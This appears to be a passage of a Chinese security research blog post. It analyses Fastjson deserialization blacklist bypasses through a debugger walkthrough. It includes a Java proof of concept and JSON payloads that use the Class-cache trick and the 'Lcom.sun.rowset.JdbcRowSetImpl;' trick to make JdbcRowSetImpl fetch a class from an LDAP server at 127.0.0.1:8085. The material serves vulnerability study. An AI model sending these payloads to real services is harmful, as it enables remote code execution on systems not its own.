 ```plain
package EXPFastJson;

import com.alibaba.fastjson.JSON;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个Class类，值为恶意类
        //用之前payload从缓存中继续加载
        String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/cgQuBZlq\",\"AutoCommit\":\"false\"}}";
        JSON.parseObject(s);
    }
}
```

### 调试：

我们第一步是加载Class类，可以看到在缓存当中找到了，然后最后返回了Class类：

[![](assets/1701612260-b541436dab2a46a1b290f6f8a00b91b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230524-59d6854e-296a-1.png)

第二步我们就查到了对应的反序列化器是MiscCodec，然后调到MiscCodec类下的deserialze函数：

[![](assets/1701612260-e9783c9374bb973f9852cb25fc9af55e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230529-5cb9e102-296a-1.png)

然后在这里判断lexer.stringVal()里面是否存在val，不存在就抛出异常

[![](assets/1701612260-3da75c4237739830ae9725367712b5a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230534-5fcdb328-296a-1.png)

然后将我们的恶意类放入strVal里面进行loadClass加载，这里我们也可以发现在开启AutoTyoe的时候也存在绕过黑名单的一个形式：

[![](assets/1701612260-95e3c180c35fe160ac68ae9759d301d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230540-6312c8ca-296a-1.png)

所以这样的话mapping就有了我们加载的恶意类，然后在调用之前的恶意类我们就能够直接进行加载了。

## FastJson1.2.25-1.2.41绕过：

我们上面提到了在缓存中获取类的下面有两个判断，也就是说在我们开启AutoType的情况下可以用下面两种方式来进行绕过：

*   如果以`[`开头则去掉`[`后进行类加载（在之前Fastjson已经判断过是否为数组了，实际走不到这一步）
*   如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载

所以我们用下面这个就可以绕过黑名单进行加载，开启AutoType：

```plain
import com.alibaba.fastjson.parser.ParserConfig;
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

```plain
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","DataSourceName":"ldap://127.0.0.1:8085/rNMfFuPI","AutoCommit":"false"}
```
